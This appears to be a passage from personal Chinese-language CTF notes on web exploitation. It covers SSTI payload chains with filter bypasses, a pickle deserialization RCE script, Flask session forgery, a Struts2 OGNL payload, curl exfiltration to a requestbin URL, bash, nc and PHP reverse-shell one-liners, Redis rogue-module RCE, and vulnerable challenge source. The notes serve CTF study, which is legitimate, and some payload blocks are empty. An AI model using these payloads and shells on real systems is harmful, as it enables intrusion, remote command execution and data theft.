    | \S   | 匹配任何非空白字符         |

###### PHP 正则注意事项

在 PHP 中使用正则表达式时，有一些特别的注意事项：

1. **定界符**：PHP 的正则表达式需要在表达式的开始和结束使用定界符。这通常是斜线（/），但也可以是其他字符，如井号（#）或波浪线（~）。例如：`/abc/` 或 `#abc#`。

2. **转义定界符**：如果正则表达式中包含定界符，则必须使用反斜线（\）对其进行转义。例如：`/a\/b/` 匹配 "a/b"。

3. **模式修饰符**：PHP 支持在正则表达式的定界符后添加模式修饰符，以改变正则表达式的行为。例如，

   `i` 使正则表达式对大小写不敏感

   `g` 使正则表达式全局匹配

   `m` 表示多行匹配。multi line-多行匹配使边界字符^和$匹配每一行的开头和结尾，记住是多行，而不是整个字符串的开头和结尾

   `s` 特殊字符圆点。中包含换行符\n默认情况下的圆点。是匹配除换行符\n之外的任何字符，加上s修饰符之后，。中包含换行符\n。

4. **错误处理**：使用 `preg_last_error()` 函数可以获取最后一次正则表达式执行的错误代码，这对于调试正则表达式非常有用。

5. **Unicode 和 UTF-8**：如果处理的是 Unicode 或 UTF-8 字符串，那么需要使用 `u` 模式修饰符。例如：`/你好/u`。

6. **preg_quote()**：如果你需要在正则表达式中使用字面字符串（例如用户输入），那么应该使用 `preg_quote()` 函数对其进行转义，以防止注入攻击。

7. **preg_match 和 preg_match_all**：`preg_match()` 函数在字符串中查找与模式匹配的第一个位置，而 `preg_match_all()` 函数会查找所有匹配的位置。根据你的需要选择使用哪一个。

8. **preg_replace**：可以使用 `preg_replace()` 函数来查找和替换匹配的字符串。

### tplmap

> Python 注入(PHP 也有 SSTI)

#### 路径注入
- 注入某个 URL 路径
```bash
./tplmap.py -u http://xxx/*
# 此处 * 为注入的变量
```
- 拿到 shell
```bash
./tplmap.py -u http://xxx/* --os-shell
```
#### GET 注入
```bash
./tplmap.py -u http://xxx/?a=1
# GET 方法参数为 a
```
#### POST 注入
参数 --data
```bash
./tplmap.py -u http://xxx/ --data='"name=a&pass=*"'
```


### Python

#### 模板注入
建议根据下面一点一点试
```
http://xxx/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

##### 执行系统命令

方法一

建议根据下面一点一点试（下面的示例层层递进？）

```
http://xxx/?name={{"".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}

# 如果被过滤了 2、3 等数字，用下面这个
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]}}

# 在上面的基础上，又被过滤单、双引号
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag

# 继续被过滤 args
http://xxx/?name={{().__class__.__mro__[1].__subclasses__()[407](request.values.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag

# 继续 过滤了方括号，可以用__getitem__绕过
http://xxx/?name={{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(407)(request.values.a,shell=True,stdout=-1).communicate().__getitem__(0)}}&a=cat /flag

# 继续，过滤了下划线_
http://xxx/?name={{(lipsum | attr(request.values.b)).os.popen(request.values.a).read()}}&a=cat /flag&b=__globals__

# 继续 过滤了os，可以通过get来获取
http://xxx/?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag

# 继续 过滤了request，但是是再{{}}中过滤了request，没有在过滤request
http://xxx/?name=&a=__globals__&b=os&c=cat /flag

# 过滤了非常多函数
http://xxx/?name={{''['__cl'+'ass__'].__bases__[0]['__subcl'+'asses__']()[383].__init__.__globals__['__bui'+'ltins__']['ev'+'al']("__im"+"port__('o'+'s').po"+"pen('ls /').read()")}}
```

方法二

```
http://xxx/?name={%set%20xiahua=(lipsum|select|string|list).pop(24)%}










```

如果上面这个命令不行，用下面这个（**推荐用这个**）【如果由于 POST 方法提交不了，记得 url 编码】

```
http://xxx/?name=









```


#### 文件漏洞

##### os.path.join()

**绝对路径拼接漏洞** : `os.path.join(path,*paths)` 函数用于将多个文件路径连接成一个组合的路径。第一个函数通常包含了基础路径，而之后的每个参数被当作组件拼接到基础路径之后。 然而，这个函数有一个少有人知的特性，如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将视为绝对路径。例如

```python
    with open(os.path.join("uploads/", '/flag', "r") as f:
        return f.read()
```

此时会返回 `/flag` 文件

#### Flask Session 伪造

- 条件：已知 key
- 原理：Flask 的 Session 使用 key 加密后完全存储在前端，知道 key 的情况下可以伪造

工具 https://github.com/noraj/flask-session-cookie-manager (缓存至 M1 的 `/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/Python渗透/flask-session-cookie-manager`)

用法:

```bash
python3 flask_session_cookie_manager3.py encode -s "key值" -t "我们需要伪造的值"
```

示例如 `python3 flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'`

#### Unserializer Pickle

示例
```python
import base64
import pickle

import httpx


class A:
    def __reduce__(self):
        import subprocess
        s = '''
import subprocess

r = subprocess.run(
    'cat flag', # 此处可修改命令
    shell=True,
    check=True,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT
)
print(r.stdout.decode())
        '''
        return (subprocess.check_output, (["python3","-c",s],))


a = A()
data = {
    'payload': base64.b64encode(pickle.dumps(a)).decode()
}
a = base64.b64decode(data['payload'])
r = httpx.put('http://114.67.175.224:14014/flag', json=data)
print(f'r:{r.text}')
```

#### 语法备忘

##### 将十六进制转为十进制

`num = int(hexadecimal, 16)`

##### 按位与 &

运算规则：0&0=0; 0&1=0; 1&0=0; 1&1=1

##### 按位或 |

运算规则：0|0=0; 0|1=1; 1|0=1; 1|1=1

##### 异或 ^ 

运算规则：0^0=0; 0^1=1; 1^0=1; 1^1=0


### Java

#### URL 绕过

先试试目录穿越

```
http://xxx/download?filename=../../../web.xml
```

找到可疑的路由(com.test2.aaa1.testURL)后，构造路径

```
http://xxx/download?filename=../../../classes/com/test2/aaa1/testURL.class
```

下载testURl.class文件后进行反编译，审计代码。使用绕过协议绕过

```
http://xxx/testURL?url=url:file:///flag
http://xxx/testURL?url=%00file:///flag
```

#### Struts2

模版漏洞

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

##### Struts2-Scan

目前测试该工具扫不了漏洞，使用说明可以自己找缓存的 README

## 数据外带

### URL 外带数据

- 有时候比赛环境是内网，直接在本地使用 `nc` 开监听即可

1.首先进入数据转发网站 http://requestbin.cn/ ，创建一个 RequestBin

2.复制 RequestBin 提供的临时地址，如 `http://requestbin.cn:80/ue9ugeue`

3.使用 POST 外带数据到该接口 (因为 POST 传参不限制长度)，如

```
curl -X POST -d `ls|base64 -b 0` http://requestbin.cn:80/ue9ugeue
```

- `-b 0` 的意思是将 ls 的内容进行Base64编码，并将编码后的结果输出为单行

- 这段代码是利用 Linux 会将 `` 中的内容当作命令执行的特性（而且会优先执行），并通过 POST 方法传至我们需要的 URL

4.刷新创建的 RequestBin 页面，会得到最近 20 条请求信息。查看 POST 的 RAW BODY 内容，解码 base64 即可得到服务器传来的执行结果

### 反弹 shell

- 完成反弹 shell 前需要确保服务端相应的端口开启
- 流程：服务端执行一段命令监听端口，题目端执行一段命令将 shell 反弹至服务端，在服务端中操作 shell
- 反弹 shell 有多种方式，题目端可能只有其中一个环境（如 Python 反弹），建议在 hackbar 中一个一个试

服务器端执行下面命令监听端口

```bash
nc -lvnp port
```

题目端执行下面内容，常见反弹 shell 语句（命令中的 ip 和 port 即为具体的 ip 和端口）如：

**bash反弹**

```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

**nc反弹**

```bash
mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```

**php反弹**

```bash
 php -r '$sock=fsockopen(ip,port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

## 常用软件的 RCE 漏洞 (围绕蚁剑)

### 绕过 phpinfo 的 disable_functions

当连接上蚁剑，且没有其他权限时，可以使用蚁剑来绕过 phpinfo 的 disable_functions，使用插件一个一个试，看哪个能访问



下面这个模式可能需要自己测试，并不知道哪种模式可以绕过





### Redis

#### 条件：已知密码 且 能连接蚁剑

先上传 `exp.so` 文件到 PHP 项目目录 (下载 https://github.com/Dliv3/redis-rogue-server/blob/master/exp.so [文件缓存在 M1 的 `/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/注入工具/RCE漏洞/Redis/exp.so` 中])

然后要用蚁剑插件进行连接，用插件来进行Redis提权


进入之后添加，然后输入已知的 Redis 密码：


接着，我们要利用module load 命令加载这个文件，然后才能进行RCE，所以在虚拟命令行输入

```bash
MODULE LOAD /var/www/html/exp.so
```


然后我们就可以进行命令执行了

```bash
system.exec "ls /"
```

```bash
system.exec "cat /f*"
```

如图


## 经典错题

### 攻防世界 unseping

类型 反序列化

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
      	// 如果 $this->method 的字符串内容在数组 array("ping") 中（意思是：'ping' 在 ['ping'] 中）
        if (in_array($this->method, array("ping"))) {
          	// 调用 $this->method 方法，参数为 $this->args
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
      	// 打印变量的详细信息
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

### 攻防世界 easyphp

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?>
```

### 攻防世界 Web_php_unserialize

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

### NSS [ZJCTF 2019]NiZhuanSiWei

https://www.ctfer.vip/problem/22

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

### NSS [鹤城杯 2021]EasyP

https://www.ctfer.vip/problem/463

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 
```

### NSS [鹏城杯 2022]简单包含

https://www.ctfer.vip/problem/2422

这道题有一定的误导性

```php
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php;
```

### [鹤城杯 2021]Middle magic

https://www.ctfer.vip/problem/464

```php
<?php
highlight_file(__FILE__);
include "./flag.php";
include "./result.php";
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){

    $aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']);

    if(preg_match('/pass_the_level_1#/', $aaa)){
        echo "here is level 2";
        
        if (isset($_POST['admin']) and isset($_POST['root_pwd'])) {
            if ($_POST['admin'] == $_POST['root_pwd'])
                echo '<p>The level 2 can not pass!</p>';
        // START FORM PROCESSING    
            else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){
                echo "here is level 3,do you kown how to overcome it?";
                if (isset($_POST['level_3'])) {
                    $level_3 = json_decode($_POST['level_3']);
                    
                    if ($level_3->result == $result) {
                        
                        echo "success:".$flag;
                    }
                    else {
                        echo "you never beat me!";
                    }
                }
                else{
                    echo "out";
                }
            }
            else{
                
                die("no");
            }
        // perform validations on the form data
        }
        else{
            echo '<p>out!</p>';
        }

    }
    
    else{
        echo 'nonono!';
    }

    echo '<hr>';
}

?>
```

### NSS [SWPUCTF 2022 新生赛]numgame

https://www.ctfer.vip/problem/2666

```php
<?php
error_reporting(0);
//hint: 与get相似的另一种请求协议是什么呢
include("flag.php");
class nss{
    static function ctf(){
        include("./hint2.php");
    }
}
if(isset($_GET['p'])){
    if (preg_match("/n|c/m",$_GET['p'], $matches))
        die("no");
    call_user_func($_GET['p']);
}else{
    highlight_file(__FILE__);
}
```

